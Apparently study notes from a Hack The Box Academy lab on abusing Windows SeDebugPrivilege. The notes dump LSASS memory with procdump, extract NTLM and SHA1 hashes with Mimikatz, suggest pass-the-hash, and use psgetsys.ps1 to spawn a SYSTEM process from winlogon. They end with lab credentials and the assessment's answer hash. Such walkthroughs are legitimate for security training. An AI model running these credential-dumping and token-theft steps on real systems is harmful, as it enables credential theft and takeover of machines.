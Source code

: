 # SeDebugPrivilege

SeDebugPrivilege -> allows a process to inspect and adjust the memory of other processes, and [has long been](https://leastprivilege.com/2004/08/19/sedebugprivilege-and-debugger-users/) [a security concern](https://blogs.msdn.microsoft.com/oldnewthing/20080314-00/?p=23113). SeDebugPrivilege allows the token bearer to access any process or thread, regardless of security descriptors.

The Windows credential harvesting tool [Lsadump](https://github.com/gentilkiwi/mimikatz/wiki/module-\~-lsadump) uses this technique to provide processes with read access to the memory space of the Local System Authority (LSASS).&#x20;

Malware also abuses this privilege to perform code injection into otherwise trustworthy processes, because it [permits the creation of new remote threads in a target process](https://support.microsoft.com/en-us/help/131065/how-to-obtain-a-handle-to-any-process-with-sedebugprivilege).

```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set      
```

Use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) to dump process memory. A good choice would be LSASS which stores user credentails after user logs on to a system.

```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Successful, load this in Mimikatz using sekurlsa::minidump command after sekurlsa::logonPasswords

```cmd-session
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

We can then use the output hash to perform PTH attacks

> If procdump is not possible then we can Create dump file of LSASS process manually and run mimikatz with the output file

### Remote Code Execution as SYSTEM

We can elevate our privileges to SYSTEM by launching a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using  `SeDebugPrivilege` to alter normal system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it.

{% embed url="https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1" %}
This script has to be transferd to the target system
{% endembed %}

```powershell-session
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

![Script in action](https://academy.hackthebox.com/storage/modules/67/psgetsys\_winlogon.png)

To load and run type

{% code overflow="wrap" %}
```powershell
PS C:\Users\joran\Desktop> .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
```
{% endcode %}

> We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script

## Assessment

10.129.249.171

RDP to target with username "jordan" and password "HTB\_@cademy\_j0rdan!"

Leverage SeDebugPrivilege rights and obtain the NTLM password hash for the sccm\_svc account

<figure><img src="../../../.gitbook/assets/image (110) (1) (1).png" alt=""><figcaption><p>dump the hash</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption><p>64f12cddaa88057e06a81b54e73b949b</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption><p>When you have local admin and want to get nt authority system</p></figcaption></figure>
